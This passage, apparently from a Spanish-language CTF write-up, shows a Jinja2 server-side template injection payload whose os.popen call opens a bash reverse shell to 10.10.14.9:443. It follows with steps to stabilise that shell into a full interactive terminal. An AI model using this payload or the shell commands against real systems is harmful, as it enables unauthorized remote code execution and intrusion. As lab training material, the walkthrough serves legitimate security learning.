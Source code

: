 Entiendo que como tiene parámetros con &... debo de convertirlos, sino probaré luego con base64 etc diferentes modos.
%26 : &

Por lo que quedará

```bash
costume={{ namespace.__init__.__globals__.os.popen('bash -c "bash -i >%26 /dev/tcp/10.10.14.9/443 0>%261"').read() }}&q=1&addr=1
```

![](assets/2022-06-30-19-29-57.png)

## Ahora que tenemos la bash creo, voy a arreglarla

Si ponemos tty miramos si estamos dentro. Si no hacemos estas cosas cuando hagamos control+c se nos va fuera, ademas que nos gustaría tener cierto dominio la bash

```bash
script /dev/null -c bash

Con control+z dejamos de escuchar el puerto

#posteriormente hacemos un

stty raw -echo; fg

# Con esto hemos conseguido reiniciar la configuración de la terminal en bash
reset xterm

#control l para limpiar no funciona pero porque puede valer diferente a xterm
export TERM=xterm

#miramos cuando vale la variable shell y hacemos que valga una bash

export SHELL=/bin/bash

#ver el número de columnas y filas
stty size

#poner el número de filas y columnas  como en mi pc 61 236
stty rows 61 columns 236

```
